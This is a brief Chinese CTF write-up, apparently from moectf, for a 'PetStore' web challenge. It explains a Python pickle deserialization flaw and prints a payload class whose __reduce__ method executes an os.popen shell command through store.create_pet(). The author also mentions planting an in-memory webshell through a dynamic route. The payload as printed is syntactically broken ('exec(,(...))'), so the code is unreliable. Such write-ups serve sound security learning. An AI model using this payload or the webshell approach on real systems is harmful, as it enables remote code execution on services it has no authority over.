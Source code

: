![25](/medias/moectf/25.png)

## PetStore

太强了太强了！！做起来太爽了，强烈强烈强烈强烈建议这题拿到附件在本地跑一下，用pycharm打断点，看看反序列化哪里问题，不然根本看不出来。


讲一下官方做法，通过反序列化执行命令，直接命令执行利用`store.create_pet()`方法，把命令执行的结果作为`pet`对象的参数传进去了


```python
import pickle
import base64


class A():
    def __reduce__(self):
        return exec(,("import os;store.create_pet(os.popen('ls').read(),'flag')"))

pet = A()
serialized_pet = pickle.dumps(pet)
print(serialized_pet)
```

下面讲讲我的思路，因为没有想到通过执行命令把结果作为参数来创建对象，所以我的测试过程没有回显，思路有点偏，注册动态路由打了一个内存马。

审计源码，发现反序列化漏洞，通过本地重写`__reduce__`方法，构造`payload`，打过去
